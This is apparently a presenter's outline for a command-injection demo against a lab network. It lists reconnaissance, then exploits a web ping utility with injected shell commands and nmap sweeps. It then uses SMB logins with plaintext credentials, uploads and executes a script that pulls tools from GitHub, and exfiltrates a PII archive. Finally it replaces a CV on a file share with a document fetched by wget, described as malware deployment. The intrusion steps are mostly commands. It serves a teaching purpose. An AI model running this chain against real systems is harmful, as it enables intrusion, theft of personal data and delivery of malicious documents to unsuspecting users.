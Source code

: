 Command Injection Demo:
=======================

Academic:
=========
    Dig through DNS
    Port scan IPs
    Interrogate IP
	HTTP Watch/Fiddler/Postman/Wireshark
	Headers can indicate the stack


Commands:
==========
    Login: wier credentials to connect.hackysock.com
    Browse site… Exploratory work
    Over to the ping utility
        note the command injection flaw.
	    whoami
	    pwd
	    cd ../../
	    ls
	    ifconfig -a | grep netmask
	    which nmap
	    nmap -sP 192.168.122.1/24
	    namp -p 135 192.168.122.7
	    smbclient -N '//192.168.122.7/c$' -W HACKYSOC -U wier%frantic-Folly3 -c ls
	
Find Upload section:
====================
    Upload file: Note the path description
	Figure out where uploads go
	Upload script
	CHMOD script
		chmod 775 ../../hackable/uploads/pull_scripts.sh
	Execute script
		../../hackable/uploads/pull_scripts.sh
	Show all the scripts that were pulled down from GitHub

Drop to Shell:
=================
Show rest of demo and malware deployment. \
	Execute pii script \
	Show pii data pulled from windows machine \
    Show Roger DOC \
        smbclient '//192.168.122.7/c$' -W HACKYSOC -U wier%frantic-Folly3 \
    pull roger doc at CLI \
        smbclient '//192.168.122.7/Private_Files' -c 'lcd /var/tmp; get PII.zip' -W HACYSOC -U wier%frantic-Folly3 \
    Push new DOC to FileShare \
        smbclient '//192.168.122.7/c$' -W HACKYSOC -U wier%frantic-Folly3 \
        Browse to Roger DOC in Private_Files \
        del rogeradamsCV.doc \
        exit \
        cd /var/tmp \
        wget https://github.com/rnewt6926/Ingram/blob/main/rogeradamsCV.doc \
        smbclient '//192.168.122.7/Private_Files' -c 'lcd /var/tmp; put rogeradamsCV.doc' -W HACKYSOC -U wier%frantic-Folly3 \


Wrap up:
========
    Now we wait \
